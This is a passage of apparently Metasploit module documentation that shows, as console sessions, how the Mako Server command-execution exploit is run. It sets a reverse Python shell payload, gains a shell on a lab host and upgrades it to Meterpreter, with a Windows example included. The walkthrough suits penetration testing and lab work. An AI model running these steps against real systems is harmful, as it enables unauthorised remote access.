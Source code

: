  ```
    1         shell cmd/windows                                               10.10.10.4:4444 -> 10.10.10.2:49189 (10.10.10.2)
    2         meterpreter x86/windows  smith-PC\smith @ SMITH-PC  10.10.10.4:8080 -> 10.10.10.2:49190 (10.10.10.2)

  msf post(shell_to_meterpreter) > sessions -i 2
  [*] Starting interaction with 2...

  meterpreter > getuid
  Server username: smith-PC\smith
  meterpreter > sysinfo
  Computer        : SMITH-PC
  OS              : Windows 7 (Build 7601, Service Pack 1).
  Architecture    : x64
  System Language : en_US
  Domain          : WORKGROUP
  Logged On Users : 2
  Meterpreter     : x86/windows
  ```

### Linux Ubuntu 16.04 LTS x64 running Mako Server v2.5

  A typical scenario would be to obtain a Linux command shell and then upgrade to a Meterpreter session:

  ```
  msf > use exploit/multi/http/makoserver_cmd_exec 
  msf exploit(makoserver_cmd_exec) > set RHOST 10.10.10.2
  RHOST => 10.10.10.2
  msf exploit(makoserver_cmd_exec) > set PAYLOAD cmd/unix/reverse_python
  PAYLOAD => cmd/unix/reverse_python
  msf exploit(makoserver_cmd_exec) > set LHOST 10.10.10.4
  LHOST => 10.10.10.4
  msf exploit(makoserver_cmd_exec) > check
  [*] 10.10.10.2:80 The target appears to be vulnerable.
  msf exploit(makoserver_cmd_exec) > exploit

  [*] Started reverse TCP handler on 10.10.10.4:4444 
  [*] Sending payload to target...
  [*] Command shell session 1 opened (10.10.10.4:4444 -> 10.10.10.2:57888) at 2017-11-10 15:52:33 -0500

  ls
  LICENSE.txt
  mako
  mako.zip
  README.txt
  rundemo.sh
  tutorial
  ^Z
  Background session 1? [y/N]  y
  msf exploit(makoserver_cmd_exec) > use multi/manage/shell_to_meterpreter
  msf post(shell_to_meterpreter) > sessions -l

  Active sessions
  ===============

    Id  Name  Type            Information  Connection
    --  ----  ----            -----------  ----------
    1         shell cmd/unix               10.10.10.4:4444 -> 10.10.10.2:57888 (10.10.10.2)

  msf post(shell_to_meterpreter) > set SESSION 1
  SESSION => 1
  msf post(shell_to_meterpreter) > set LPORT 8080
  ```